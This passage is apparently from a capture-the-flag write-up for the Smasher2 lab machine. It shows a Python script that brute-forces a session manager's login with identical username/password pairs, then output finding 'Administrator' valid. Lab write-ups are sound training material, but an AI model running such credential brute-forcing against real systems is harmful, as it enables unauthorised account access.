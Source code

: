 ```python
    passwords = f.read().splitlines()

i = 0
bad = 0

while True:
    bad = 0
    s = requests.Session()
    r = s.get("http://wonderfulsessionmanager.smasher2.htb/login", proxies=proxies)
    if r.status_code != 200:
        print("GET FAILED!")
        exit(1)
    data = '{"action":"auth","data":{"username":"%s","password":"%s"}}' % (passwords[i], passwords[i])
    print("Testing username: %s" % passwords[i])
    while True:
        r = s.post(url, headers=headers, data=data, proxies=proxies)
        if r.status_code == 200:
            break
        if r.status_code == 403:
            bad = bad + 1
            if bad == 5:
                print("Skipping... %s" % passwords[i])
                break
    if (not "Cannot authenticate with data" in r.text) and (bad < 5):
        print("Potential password! %s" % passwords[i])
        with open("out.txt", "a") as f:
            f.write("%s\n" % passwords[i])
    i = i + 1
    time.sleep(0.05)
```

Eventually, I found that the username `Administrator` is the right one (case-sensitive):

```
# python brute.py 
Testing username: admin
Testing username: administrator
Testing username: operator
Testing username: sql
Testing username: demo
Testing username: pos
Testing username: user
Testing username: default
Testing username: defaultaccount
Testing username: account
Testing username: accounting
Testing username: guest
Testing username: guest
Testing username: adm
Testing username: office
Testing username: manager
Testing username: Admin
Testing username: Administrator
Potential password! Administrator
```
